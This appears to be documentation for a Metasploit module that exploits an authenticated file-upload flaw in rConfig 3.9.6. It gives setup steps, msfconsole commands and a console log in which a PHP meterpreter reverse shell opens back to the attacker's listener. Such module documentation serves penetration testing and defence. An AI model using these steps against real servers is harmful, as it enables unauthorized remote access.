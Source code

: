 ## Vulnerable Application

### Description

This module allows an attacker with a privileged rConfig account to start a reverse shell due to an
arbitrary file upload vulnerability in `/lib/crud/vendors.crud.php`. Then, the uploaded payload can be
triggered by a call to `images/vendor/<payload_file>.php`

### Installation

Vulnerable versions of rConfig can be downloaded from [here](https://www.rconfig.com/download/). Then,
help yourself with [this](https://help.rconfig.com/gettingstarted/installation) installation guide.
You can also use this [docker file](https://hub.docker.com/r/libyerman/rconfig)
(as long as it is not updated and remains a 3.9.6 version of rConfig)

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce`
3. `set USERNAME <admin_username>`
4. `set PASSWORD <admin_password>`
5. `set TARGETURI <base_path_rconfig>` if the base path of rConfig web server is different from `/`
6. `check` to check if the targeted rConfig server is vulnerable
7. `run` the module to exploit the vulnerability and start a reverse shell

## Options

### USERNAME

Set the USERNAME of your admin account.

### PASSWORD

Set the PASSWORD of your admin account.

## Scenarios

This module was successfully tested on CentOS 7 with rConfig 3.9.6. See the following output :

```
msf > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set rhost 192.168.37.133
rhost => 192.168.37.133
msf exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set username admin
username => admin
msf exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set password admin
password => admin
msf exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] 3.9.6 of rConfig found !
[+] The target appears to be vulnerable. Vulnerable version of rConfig found !
[+] We successfully logged in !
[*] Uploading file 'oppkr.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 192.168.37.133
[+] Deleted oppkr.php
[*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.133:54806) at 2021-06-24 09:44:24 -0500

meterpreter > getuid
Server username: apache (48)
meterpreter > sysinfo
Computer    : localhost.localdomain
OS          : Linux localhost.localdomain 3.10.0-1160.31.1.el7.x86_64 #1 SMP Thu Jun 10 13:32:12 UTC 2021 x86_64
Meterpreter : php/linux
```

